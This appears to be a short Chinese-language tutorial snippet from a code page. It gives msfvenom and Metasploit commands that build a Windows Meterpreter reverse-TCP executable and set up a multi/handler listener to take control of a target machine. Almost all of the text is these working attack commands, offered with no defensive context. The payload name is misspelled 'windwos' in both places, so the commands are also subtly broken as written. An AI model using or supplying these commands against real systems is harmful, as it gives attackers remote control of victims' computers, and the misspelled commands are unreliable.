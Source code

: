 生成windows被控端

```shell
msfvenom -p windwos/x64/meterpreter/reverse_tcp lhost=192.168.0.111 lport=4444 -f exe >windows.exe
```



连接靶机

```shell
use exploit/multi/handler

set payload windwos/x64/meterpreter/reverse_tcp 

set lhost 192.168.0.111

set lport 4444

exploit  ||  run
```

